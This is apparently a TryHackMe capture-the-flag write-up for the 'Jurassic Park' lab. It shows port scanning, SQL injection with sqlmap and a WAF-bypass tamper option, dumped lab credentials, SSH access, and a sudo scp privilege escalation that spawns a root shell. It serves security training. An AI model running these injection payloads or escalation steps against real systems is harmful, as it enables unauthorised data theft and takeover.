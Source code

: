 ```yaml
---
title: "TryHackMe: Jurassic Park Write-up"
date: 2025-07-05 14:00:00
categories: [TryHackMe, Challenges]
tag: [Enumeration, SQL Injection, Privilege Escalation]
author: Aisha
---
```






---

## Objective:
**Challenge Link:** [tJurassic Park](https://tryhackme.com/room/jurassicpark)

Enumerate the web application, obtain credentials to the server, and find four flags hidden in the file system.

## Enumeration:

**Port Scanning**

```bash
sudo nmap -sS -F -n 10.10.165.112
Nmap scan report for 10.10.165.112
Host is up (0.14s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.22 seconds
```

visited the website on port 80, while I was viewing the tickets, I modified the URL to the `id=5` parameter, which revealed a ticket priced 0.

![image](https://github.com/user-attachments/assets/bee5e0b8-a332-4615-a07a-1481282dc139)

To test if the website is vulnerable to SQL injection, add a single quote next to the id `id=5'`, which will break the database query.

![image](https://github.com/user-attachments/assets/44f1db2f-d16e-47c0-b3ea-338377e60b3c)

we have confiremed that the website is vulnerable to **SQLi**, I used [SQLmap](https://sqlmap.org/) tool to automate the process of detection and exploiting **SQLi vulnerability**.

Before starting the attack, inject a malformed query and check the error message to identify the database.

![image](https://github.com/user-attachments/assets/4aac1e8f-0337-4906-b128-c24930055aa2)

This confirms that the back-end database is **MySQL**. Now let's start SQLi attack. I added this option `--tamper=space2comment.py` to bypass common WAF filters

```bash
sqlmap -u "http://10.10.165.112/item.php?id=5" --dbs --random-agent  --tamper=space2comment.py
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

...
...
sqlmap identified the following injection point(s) with a total of 261 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=5 AND 6078=6078

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=5 AND GTID_SUBSET(CONCAT(0x7162767a71,(SELECT (ELT(3314=3314,1))),0x717a626271),3314)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=5 AND (SELECT 3423 FROM (SELECT(SLEEP(5)))jsGZ)
---
[10:30:24] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[10:30:24] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.6
[10:30:25] [INFO] fetching database names
[10:30:26] [INFO] retrieved: 'information_schema'
[10:30:26] [INFO] retrieved: 'mysql'
[10:30:26] [INFO] retrieved: 'park'
[10:30:26] [INFO] retrieved: 'performance_schema'
[10:30:26] [INFO] retrieved: 'sys'
available databases [5]:
[*] information_schema
[*] mysql
[*] park
[*] performance_schema
[*] sys

[10:30:26] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.165.112'

```

**Findings:**
- Databases: information_schema, mysql, park, performance_schema, sys.
- Target database: park.

## Database Enumeration

Extract tables from **park**

```bash
sqlmap -u "http://10.10.165.112/item.php?id=5" --dbms=mysql -D park --tables --random-agent  --tamper=space2comment.py
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.9.4#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


---
[10:53:45] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[10:53:45] [INFO] testing MySQL
[10:53:45] [INFO] confirming MySQL
[10:53:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.0
[10:53:46] [INFO] fetching tables for database: 'park'
[10:53:46] [INFO] retrieved: 'items'
[10:53:46] [INFO] retrieved: 'users'
Database: park
[2 tables]
+-------+
| items |
| users |
+-------+

[10:53:46] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.165.112'
```
**Findings:**
- Tables:  items, users

## Credential Dumping

```bash
sqlmap -u "http://10.10.165.112/item.php?id=5" --dbms=mysql -D park -T items,users --dump --random-agent  --tamper=space2comment.py
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9.4#stable}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
              
---

Database: park
Table: items
[5 entries]

| id  | sold | price  | package     | information                                                                                                                                                                            |
+-----+------+--------+-------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1   | 4    | 500000 | Gold        | Childen under 5 can attend free of charge and will be eaten for free. This package includes a dinosaur lunch, tour around the park AND a FREE dinosaur egg from a dino of your choice! |
| 2   | 11   | 250000 | Bronse      | Children under 5 can attend free of charge and eat free. This package includes a tour around the park and a dinosaur lunch! Try different dino's and rate the best tasting one!        |
| 3   | 27   | 100000 | Basic       | Children under 5 can attend for free and eat free. This package will include a basic tour around the park in the brand new automated cars!                                             |
| 5   | 0    | 0      | Development | Dennis, why have you blocked these characters: ' # DROP - username @ ---- Is this our WAF now?                                                                                         |
| 100 | -1   | -1     | ...         | Nope                                                                                                                                                                                   |
---

Database: park
Table: users
[2 entries]
+----+-----------+----------+
| id | password  | username |
+----+-----------+----------+
| 1  | D0nt3ATM3 |          |
| 2  | ih8dinos  |          |
+----+-----------+----------+

```

Used credentials (`dennis:ih8dinos`) to access the machine:

## Initial Access

```bash
ssh dennis@10.10.165.112     
The authenticity of host '10.10.165.112 (10.10.165.112)' can't be established.
ED25519 key fingerprint is SHA256:RgFyYsoL/n7m7p/t714RGHLqLtFNcn/+9tndcXsYijA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
dennis@10.10.165.112's password: 

dennis@ip-10-10-165-112:~$ whoami
dennis
```

The user doesn't have root access. To gain privileged access, the first thing you do is to check what privileged commands your current user is allowed to run with `sudo` without requiring a password.

```bash
dennis@ip-10-10-165-112:~$ ls -al
total 52
drwxr-xr-x 4 dennis dennis 4096 Jul  5 15:27 .
drwxr-xr-x 4 root   root   4096 Feb 16  2019 ..
-rw------- 1 dennis dennis 1001 Feb 16  2019 .bash_history
-rw-r--r-- 1 dennis dennis  220 Feb 16  2019 .bash_logout
-rw-r--r-- 1 dennis dennis 3771 Feb 16  2019 .bashrc
drwx------ 2 dennis dennis 4096 Jul  5 15:06 .cache
-rw-rw-r-- 1 dennis dennis   93 Feb 16  2019 flag1.txt
drwxrwxr-x 2 dennis dennis 4096 Jul  5 15:15 .nano
-rw-r--r-- 1 dennis dennis  655 Feb 16  2019 .profile
-rw-rw-r-- 1 dennis dennis   32 Feb 16  2019 test.sh
-rw-r--r-- 1 dennis dennis 4096 Jul  5 15:21 .test.txt.swp
-rw------- 1 dennis dennis 4631 Jul  5 15:27 .viminfo
dennis@ip-10-10-165-112:~$ 
dennis@ip-10-10-165-112:~$ sudo -l
Matching Defaults entries for dennis on ip-10-10-165-112.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dennis may run the following commands on ip-10-10-165-112.eu-west-1.compute.internal:
    (ALL) NOPASSWD: /usr/bin/scp
```

## Privilege Escalation

Followed [GTFOBins](https://gtfobins.github.io/gtfobins/scp/) to abuse `scp`.

1. Created a temporary file with a reverse shell payload

```bash
TF=$(mktemp)                      
echo 'sh 0<&2 1>&2' > $TF      
chmod +x "$TF"                    
```

2. Executed scp with the malicious payload

```bash
sudo scp -S $TF x y:                   
```
`-S $TF` tells `scp` to use `$TF` (our script) instead of the default SSH for the connection. Since scp runs as root (via `sudo`), our payload executes with root privileges.

![image](https://github.com/user-attachments/assets/31b117cf-7d60-42e2-a42a-58296d63ef36)

